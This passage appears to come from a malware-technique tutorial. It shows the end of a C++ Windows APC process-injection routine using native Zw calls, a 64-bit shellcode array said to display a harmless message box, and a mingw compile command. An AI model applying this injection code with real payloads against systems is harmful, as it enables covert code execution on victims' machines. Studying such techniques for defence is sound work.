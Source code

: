 ```cpp

  sh = NULL;

  // create new thread
  myZwQueueApcThread(pi.hThread, (PIO_APC_ROUTINE)rb, 0, 0, 0);
  myZwSetInformationThread(pi.hThread, (THREADINFOCLASS)1, NULL, NULL);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;

}
```

As usually, for simplicity, I used `meow-meow` messagebox as payload:    

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to compile our example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
